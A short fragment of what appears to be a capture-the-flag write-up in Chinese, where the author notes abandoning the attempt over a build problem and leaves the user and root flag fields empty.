  

>看来是build的问题,算了我放弃除非是那种就是给build建造的tar不然解决不了睡觉了，我看了文档明天找官方带build的tar文件
>


>userflag:
>
>rootflag:
>